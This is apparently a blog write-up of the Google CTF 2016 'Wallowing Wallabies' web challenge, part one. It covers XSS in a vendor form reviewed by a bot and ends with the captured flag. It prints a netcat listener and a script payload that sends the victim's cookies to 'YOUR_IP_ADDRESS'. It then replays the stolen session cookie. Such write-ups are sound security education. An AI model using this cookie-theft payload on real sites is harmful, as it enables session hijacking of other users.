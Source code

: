 ```yaml
---
layout: post
title: Google CTF - Wallowing Wallabies - Part One
comments: true
---
```


This post is about the [Wallowing Wallabies](https://wallowing-wallabies.ctfcompetition.com/) web challenge of the [Google CTF](https://capturetheflag.withgoogle.com).

On the website, we are greeted by this beautiful page:
![Wallowing Wallabies home page](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png)

As interesting as this page is, I quickly moved to the `sitemap.xml` (none were found) and to the `robots.txt`:

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

After trying all the urls, I found that the vendors one was interesting.

![Wallowing Wallabies Vendors](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors.png)

That's interesting. It is obviously a form where you put text that will be read by an administrator (or a bot in our case). Let's see if it's possible to do an [XSS injection](https://en.wikipedia.org/wiki/Cross-site_scripting). We will start by checking if the HTML tags are displayed to the page:

``` html
<h1>XSS</h1>
```

And we receive

![Wallowing Wallabies Vendor submission confirmation with XSS hint](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-hint.png)

So the `<h1>` didn't work, but we get told that they expect our form to contains `<script src=`. We can conclude that this challenge is really an XSS.

Now that we know what we can do, we have to find what to do. The first thing to think about when we control a page that will be viewed by someone (especially an admin) is that we can steal his **session cookie**.

To steal a cookie, one can redirect the current user viewing the page to a page under our control, with the cookies appended to the URL. Note that this is a lazy way to do it and it might fail in some cases if the cookie is longer than the max lenght of the URL. Hopefully, this is not our case, so we can be lazy.

The first thing to do is to setup a server to receive the cookie. I used netcat as it is easy to setup and we only need to listen to one connection. Note that if you are behind a router, you will need to redirect the port you use to your computer. I will leave this as an exercice to the reader.

Start your "web server":

``` bash
netcat -l -p 8085 #-l is for listen -p is to specify the port
```

Now we need our javascript payload to redirect the user. Once again I dont want to host the script, and the website want to receive `<script src=`, so I just append it to my script to make the check pass.

``` html
<script>
  window.location = "http://YOUR_IP_ADDRESS:8085/" + document.cookie;
</script>
<script src=""></script>
```

The admin (bot) will load the page with your script in it, and you will view the URL containing the cookie in the netcat terminal. Dont forget to URL decode the cookie.

Your cookie should look something like this:

`green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2`

The cookie is named `green-mountains` and the value is everything after the first `=`. We can see that it's in 3 parts separated by `|`. The first part look like Base64 (you can tell because it's all Alphanumeric and end with an `=`). If you decode it you get:

`{"nonce":"593a7fdc41a4f1a0","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462051043}`

The interesting part is the `allowed`, which seems to give access to our **vendor** website. We will set the cookie in the browser. You can do it by pasting that in the console:

`document.cookie = "green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2";`

When you access the [vendor](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors) page: **Tada!** You get your flag!

![Wallowing Wallabies Vendor page with blurred flag](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-flag.png)
